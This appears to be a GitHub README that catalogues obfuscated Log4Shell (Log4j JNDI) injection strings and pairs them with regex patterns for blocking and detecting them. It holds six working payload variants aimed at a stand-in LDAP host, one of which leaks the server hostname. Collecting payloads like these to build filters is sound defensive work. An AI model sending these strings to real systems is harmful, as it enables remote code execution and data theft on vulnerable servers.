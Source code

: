 ## Log4j2-Obfucation

Current Log4Shell obfuscation techniques observed or reported (Also works on rmi, dns, ldaps)

# Obfuscation

```

${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://test/a}

${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://${upper:t}est/a} 

${${env:env_name:-j}${env:env_name:-n}${env:env_name:-d}${env:env_name:-i}${env:env_name:-:}${env:env_name:-l}${env:env_name:-d}${env:env_name:-a}${env:env_name:-p}${env:env_name:-:}//test/a} (Also works on rmi, dns, ldaps)

${${::-j}${${::-n}${${::-d}${${::-i}:${::-l}${${::-d}${${::-a}${${::-p}://test/a}

${${::-j}${${::-n}${${::-d}${${::-i}:${::-l}${${::-d}${${::-a}${${::-p}://${hostname}.test/a}

${jndi:ldap://{$date:YYYYMMddHHmmss}.test/a}

```

# Regex

Pattern match to capture all of above

Prevent
```

.*\$\{.{0,20}j.{0,20}n.{0,20}d.{0,20}i.{0,150}:.{0,5}\/.*\}

```
Detect
```

.*\$\{(\$\{.+j\}|j)(\$\{.+n\}|n)(\$\{.+d\}|d)(\$\{.+i\}|i)(\$\{.+:\}|:).*\/.*\}

```
